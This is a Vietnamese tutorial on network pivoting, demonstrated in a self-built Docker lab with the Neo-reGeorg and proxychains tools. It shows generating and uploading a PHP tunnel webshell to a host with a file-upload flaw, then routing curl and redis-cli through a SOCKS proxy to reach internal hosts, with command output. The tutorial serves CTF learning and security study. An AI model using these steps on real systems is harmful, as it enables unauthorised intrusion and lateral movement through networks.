






# Kỹ thuật pivot và tool Neo-reGeorg

## 1. Giới thiệu
Pivot là một kỹ thuật giúp attacker tăng tầm ảnh hưởng của lỗ hổng đối với một hệ thống.



Xem xét một hệ thống (build bằng docker) gồm:
- Host chính là máy chạy docker, máy này sẽ đóng vai attacker 🙂.
- 3 host: `HA` (`172.18.0.4`), `HB` (`172.18.0.4`), `HC` (`172.18.0.3`).
- `HA` đang chạy một web server ở port `80` và map ra bên ngoài là port `2808`.
- `HC` đang chạy một web server ở port `80`.
- `HB` đang chạy redis ở port `6379`.
- 2 bridge: 
    - `bridgeA`: gồm `HA`.
    - `bridgeB`: gồm `HA`, `HB`, `HC`.

Giả sử ứng dụng web ở `HA` có lỗ hổng upload file nên attacker có thể kiểm soát (RCE) được `HA`. Từ đó attacker có thể gửi gói tin mạng sang bên `bridgeB` để tìm cách sử dụng các dịch vụ khai thác thêm `HB` và `HC`.

Ví dụ: `HB` chạy cơ sở dữ liệu redis với mật khẩu dễ đoán thì sau khi kiểm soát được `HA` thì có thể kiểm soát được luôn redis (nếu đoán được mật khẩu 🔑).

Việc sử dụng một hệ thống đã được kiểm soát để tìm kiếm các hệ thống trong mạng rồi săn tìm những điểm yếu khác để tấn công được gọi là kỹ thuật pivot.

## 2. Lưu ý
Trong quá trình khai thác ta không có sẵn địa chỉ IP của các host. Lúc đó ta cần các công cụ khác để scan. Mình cho sẵn IP để làm cho bài viết dễ tiếp cận hơn. 😁

Mình sẽ demo kỹ thuật pivot dựa trên mô hình trên.

Chỉ có `HA` là có thể được truy cập từ mạng bên ngoài. Tuy nhiên do build từ docker nên máy host cũng có thể truy cập tới `HA`, `HB`, `HC`. Mô hình thực ra kiểu như này:


Do đó ta sẽ dựa vào log để xem là truy cập trực tiếp hay là truy cập từ ngoài vào. Ví dụ khi ở máy attacker mà curl tới `http://localhost:8000` thì sẽ IP được log lại là `172.19.0.1`, còn curl trực tiếp tới `http://172.18.0.4` (địa chỉ IP của HA) thì địa chỉ IP được log lại sẽ là `172.18.0.1`.


## 3. Các cách để triển khai pivot
Ý tưởng chung sẽ là làm sao để gửi các gói tin chứa yêu cầu của attacker tới dịch vụ cần khai thác rồi chuyển các phản hồi tới attacker. Làm vậy thì kiểu như attacker ở trong chính mạng cần truy cập luôn ấy nhỉ 😁. 

Để chuyển các gọi tin như vậy thì ta có một số cách như sử dụng port forwarding, VPN, proxy hay chỉnh sửa routing table. Tương ứng với pivot thì cũng có một số cách như vậy:
- Port forwarding.
- VPN pivoting.
- Proxy/SSH pivoting.
- Routing tables.

Do giả thiết là ta đã kiểm soát được `HA` nên giả sử ta cũng thiết lập được Port forwarding, VPN, proxy, .... Ví dụ: ta có thể sử dụng `HA` như proxy:


*Hình nào có con bug là đã bị attacker tác động rồi nhé* 🙂

Hiện nay có rất nhiều tool giúp attacker thực hiện pivot bằng cách thực hiện một trong cách trên. 
## 4. Các tool mình ~~thường~~ từng dùng:
### [proxychains](https://github.com/haad/proxychains): 
Là một tool cho phép các gói tin được gửi từ việc sử dụng các command trên shell đi qua một proxy server nào đó.

### [reGeorg](https://github.com/sensepost/reGeorg) và [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg): 
Trong khuôn khổ CTF thì lỗ hổng upload file được mô phỏng rất thường xuyên. Và reGeorg và Neo-reGeorg là tool giúp tạo một file upload `tunnel.(aspx|ashx|jsp|jspx|php)` khai thác lỗ hổng upload file. File đó sẽ có vai trò tạo một proxy server như mô hình trên. Từ proxy server đó sẽ đi tới `HA`. Và từ `HA` có thể đi sang `HB`, `HC`. 

*Lưu ý: thực ra không cần phải rập khuôn phải là upload file, miễn là có thể lưu một file với nội dung cần thiết như upload file là được.*

**Demo:** Neo-reGeorg là bản mở rộng của reGeorg nên mình sẽ dùng Neo-reGeorg để demo chức năng cơ bản của cả hai.

Ở host `HA` thì có lỗ hổng file upload với server apache cổ điển. Vì cấu hình không kỹ (thực ra là không cấu hình luôn :v) nên các file upload có thể được thực thi bằng đuôi `.php`. 

Sử dụng Neo-reGeorg để sinh các file:
```ruby
$ python3 neoreg.py generate -k icecream

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp
```
Sau đó upload `neoreg_servers/tunnel.php` lên `HA`. File `tunnel.php` chính là lý do có con bug ở `HA` trong mô hình trên :v 🪲

```ruby
$ python3 neoreg.py -p 7777 -k icecream -u http://localhost:8000/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting socks server [127.0.0.1:7777]
  Tunnel at:
    http://localhost:8000/tunnel.php
+------------------------------------------------------------------------+
```

Đồng thời, Neo-reGeorg cũng tạo ra một proxy ở cổng 7777 (do mình để `-p 7777`) để cho mình gửi các gói tin vào nếu muốn nó chạy sang `HC` hoặc `bridgeB`. Mô hình như sau:



Để gửi vào qua proxy `7777` đó thì mình sẽ sử dụng [proxychains](https://github.com/haad/proxychains).

Ta sẽ thử hai câu lệnh:
**Câu lệnh 1:**
```ruby
$ curl 172.18.0.3
```

**Log đối với câu lệnh 1:**


Nếu dùng `curl` không qua proxy `7777` thì địa chỉ IP truy cập sẽ là `172.18.0.1` rất bình thường như lúc nãy ta đã `curl`.

**Câu lệnh 2:**
```ruby
$ proxychains curl 172.18.0.3
```

**Log đối với câu lệnh 2:**


Nếu dùng `curl` qua proxy `7777` thì địa chỉ IP truy cập vào `HC` là `172.18.0.4` - địa chỉ của `HA`. Tức là ta đã sử dụng `HA` để request sang `HC`, sang `bridgeB`.

Việc truy cập được là do file `tunnel.php` ta upload lên. Ta có thể thấy, xen lẫn trong log là các request tới `HA` từ ngoài vào (URL `localhost:8000`).

Bên `bridgeB` còn có `HB` chạy dịch vụ redis, ta cũng nên thử vào `ping` cái chứ nhỉ 😆
```ruby
$ proxychains redis-cli -u redis://172.18.0.2:6379
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:7777-<><>-172.18.0.2:6379-<><>-OK
172.18.0.2:6379> ping
PONG
172.18.0.2:6379> client list
id=4 addr=172.18.0.4:35024 laddr=172.18.0.2:6379 fd=8 name= age=6 idle=0 flags=N db=0 sub=0 psub=0 ssub=0 multi=-1 qbuf=26 qbuf-free=20448 argv-mem=10 multi-mem=0 rbs=1024 rbp=0 obl=0 oll=0 omem=0 tot-mem=22298 events=r cmd=client|list user=default redir=-1 resp=2
172.18.0.2:6379>quit
``` 
Quan sát trường `addr=172.18.0.4:35024` từ câu lệnh `client list` có chứa địa chỉ IP của máy tạo connection đến redis, chính là địa chỉ của `HA`.

### Setup cho burp suite có thể dùng proxy 7777:
`HC` có chạy một web server nên trong thực tế có thể sẽ có lỗ hổng ở đó nên ta cần setup cho burp suite có thể sử dụng được.

Proxy ở port 7777 ở trên sử dụng giao thức SOCKS5.

- Ta vào `User options`.
- Tích chọn `Use SOCKS proxy`.
- Điền IP và port của proxy của mình để là `127.0.0.1` và `7777`.



Như vậy là đã có thể hoạt động bình thường. Mô hình hoạt động như sau:



## 5. Q&A
**Q1:** Sao nhìn pivot giống SSRF vậy? Này là SSRF đổi tên đúng không? 🤔

**A1:** Thực ra mình cũng thấy giống SSRF😆. Hiểu theo một nghĩa nào đó thì cả hai cái cũng có thể là một. Nhưng mà lúc chơi CTF thường thì SSRF sẽ là cố gắng bypass để giả mạo request tới một chức năng nào đó mà client thường không làm được của server. Còn pivot thường cái kết nối của nó sẽ mạnh hơn nhiều, ta có thể thực hiện nhiều câu lệnh hơn chẳng hạn `redis-cli` như ví dụ.